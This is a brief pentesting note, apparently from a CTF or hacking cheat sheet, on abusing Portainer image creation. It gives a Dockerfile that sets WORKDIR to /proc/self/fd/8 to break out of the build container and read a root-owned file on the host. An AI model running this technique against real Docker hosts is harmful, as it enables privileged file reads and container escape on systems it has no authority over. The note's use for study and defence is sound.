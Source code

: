 # Portainer

Portainer is a lightweight management UI which allows you to easily manage your Docker host or Swarm cluster.

## Abuse creation of an Image

We can abuse the creation of images in Portainer to read certain files on the Host.

Using the `WORKDIR` instruction in a Dockerfile, we can traverse the filesystem and read files.

```
FROM ubuntu:latest

WORKDIR /proc/self/fd/8

RUN cat ../../../../root/root.txt
```